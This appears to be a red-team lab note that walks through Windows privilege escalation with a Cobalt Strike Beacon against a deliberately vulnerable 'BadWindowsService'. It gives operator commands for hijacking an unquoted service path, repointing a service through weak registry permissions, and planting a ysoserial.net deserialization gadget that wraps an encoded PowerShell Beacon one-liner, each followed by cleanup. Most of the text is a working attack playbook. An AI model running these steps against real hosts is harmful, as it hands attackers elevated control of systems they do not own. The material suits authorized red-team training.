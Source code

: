 ### Unquoted Service Path
- Verify the binary path of the service.
    1. `sc_qc BadWindowsService`

-  Verify the permissions of the target directory.    
    1. `cacls "C:\Program Files\Bad Windows Service"`

-  Change Beacon's current working directory.    
    1. `cd C:\Program Files\Bad Windows Service`

-  Upload a DNS Beacon service payload.
    1. `upload C:\Payloads\dns_x64.svc.exe`

-  Rename the payload to activate the hijack.
    1. `mv dns_x64.svc.exe Service.exe`

-  Restart the service.
    
    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`
    
    The new Beacon should appear immediately.
    
-  Interact with the new Beacon.
    1. `Run a checkin command.`

-  Delete the service payload.
    1.` rm Service.exe`

### Service Registry Permissions
- Verify the permissions of the service's regsitry key.
    
    1. powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl
-  Stop the service.
    
    1. sc_stop BadWindowsService
-  Change Beacon's current working directory.
    
    1. cd C:\Temp
-  Upload a DNS Beacon service payload.
    
    1. upload C:\Payloads\dns_x64.svc.exe
-  Get the current binary path.
    
    1. sc_qc BadWindowsService
-  Reconfigure the service to point to the payload.
    
    1. sc_config BadWindowsService C:\Temp\dns_x64.svc.exe 0 2
-  Start the service.
    
    1. sc_start BadWindowsService
    
    The elevated Beacon should appear immediately.
    
-  Restore the binary path.
    
    1. sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2
-  Delete the service payload.
    
    1. rm dns_x64.svc.exe

### Unsafe Deserialization

1.  Host a PowerShell one-liner on the medium-integrity Beacon for a DNS Beacon payload.
    
> Right-click the Beacon and select **Access > One-liner**.
    
2.  On your Attacker Desktop, generate a serialized gadget with ysoserial.net, using the PowerShell one-liner from the previous step.
    
    `C:\Tools\ysoserial.net\ysoserial\bin\Release\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc ..." -o raw --outputpath=C:\Payloads\data.bin`
    
3.  Change Beacon's current working directory.
    
    1. cd C:\Temp
4.  Upload the gadget.
    
    1. upload C:\Payloads\data.bin
5.  Sit back and wait for up to 60 seconds for the elevated Beacon to appear.
    
> Check that the service is running with sc_query BadWindowsService and use sc_start BadWindowsService is you need to.
    
6.  Delete the gadget.
    
    1. rm data.bin